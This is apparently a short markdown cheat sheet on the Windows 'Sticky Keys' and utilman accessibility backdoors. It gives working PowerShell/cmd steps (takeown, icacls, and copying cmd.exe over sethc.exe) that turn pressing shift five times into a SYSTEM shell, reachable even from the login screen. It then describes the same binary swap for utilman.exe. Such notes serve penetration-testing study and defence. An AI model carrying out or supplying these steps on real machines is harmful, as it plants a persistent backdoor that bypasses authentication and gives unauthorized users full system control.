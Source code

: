 ```yaml
---
category: Uncategorized
tags: []
---
```

### Sticky Keys
- When we press shift 5 times, the program located at `C:\Windows\System32\sethc.exe` is executed.
- We can chage this binary to `cmd.exe`, we can get a SYSTEM level shell even from the login screen.
- We need to have proper permission to change this binary
```powershell
# Take ownership of the binary
takeown /f C:\Windows\System32\sethc.exe
# Give Administrator full permission to the binary
icacls C:\Windows\System32\sethc.exe /grant Administrator:F
# copy the binary
copy C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```
- Now we can get SYSTEM shell if we press shift 5 times anywhere.

### utilman
- Simiar to `C:\Windows\System32\sethc.exe` , when we click on `easeofaccess` button on login screen, `C:\Windows\System32\utilman.exe` is executed.
- We can change this binary after taking ownership of this binary.
